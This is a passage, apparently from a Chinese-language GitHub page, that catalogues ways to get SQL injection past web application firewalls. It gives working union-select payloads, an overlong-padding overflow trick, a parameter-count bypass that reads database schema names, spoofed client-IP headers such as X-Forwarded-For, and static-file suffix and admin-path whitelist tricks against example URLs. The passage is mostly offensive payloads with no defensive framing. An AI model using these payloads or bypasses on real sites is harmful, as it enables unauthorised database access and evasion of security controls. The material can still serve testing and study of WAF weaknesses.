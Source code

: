 select * from admin where id=1【位置一】union【位置二】select【位置三】1,2,db_name()【位置四】from【位置五】admin

### &lt;逻辑层&gt;

#### 1.逻辑问题

#### 2.性能问题

```
例子1：
?id=1 and (select 1)=(Select 0xA*1000)+UnIoN+SeLeCT+1,2,version(),4,5,database(),user(),8,9
PS：0xA*1000 指 0xA 后面“A”重复 1000 次，一般来说对应用软件构成缓冲区溢出都需要较大的测试长度，这里 1000只做参考也许在有些情况下可能不需要这么长也能溢出。

例子2：
?a0=0&amp;a1=1&amp;.....&amp;a100=100&amp;id=1 union select 1,schema_name,3 from INFORMATION_SCHEMA.schemata
备注：获取请求参数，只获取前 100 个参数，第 101 个参数并没有获取到，导致 SQL 注入绕过。
```

#### 3.白名单

从网络层获取的 ip，这种一般伪造不来，如果是获取客户端的 IP，这样就可能存在伪造 IP 绕过的情

况。

```
测试方法：修改 http 的 header 来 bypass waf
X-forwarded-for
X-remote-IP
X-originating-IP
X-remote-addr
X-Real-ip
```

特定的静态资源后缀请求，常见的静态文件(.js .jpg .swf .css 等等)，类似白名单机制，waf 为了检测效率，不去检测这样一些静态文件名后缀的请求。

```
http://10.9.9.201/sql.php?id=1
http://10.9.9.201/sql.php/1.js?id=1
备注：Aspx/php 只识别到前面的.aspx/.php 后面基本不识别
```

为了防止误拦，部分 waf 内置默认的白名单列表，如 admin/manager/system 等管理后台。只要 url

中存在白名单的字符串，就作为白名单不进行检测。
